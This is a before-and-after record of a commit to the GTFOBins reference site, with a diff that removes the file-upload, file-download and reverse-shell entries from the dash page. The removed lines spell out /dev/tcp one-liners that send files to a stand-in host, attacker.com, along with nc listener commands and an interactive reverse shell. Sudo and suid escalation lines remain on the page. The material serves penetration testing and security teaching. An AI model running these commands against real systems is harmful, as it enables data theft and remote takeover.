

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/dash.md, in a window 1280 px wide. Shown: the whole page at 83% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Remove unsupported dash functions

```diff
--- a/_gtfobins/dash.md
+++ b/_gtfobins/dash.md
@@ -6,36 +6,4 @@ functions:
     - code: sudo dash
   suid-enabled:
     - code: ./dash -p
-  upload:
-    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        dash -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
-    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        dash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
-  download:
-    - description: Fetch a remote file via HTTP GET request.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_get
-        dash -c '(echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d \"\r\")" != "" ]; do read i; done; cat) > $LFILE'
-    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
-      code: |-
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_get
-        dash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
-  reverse-shell:
-    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        dash -c 'dash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
 ---
```
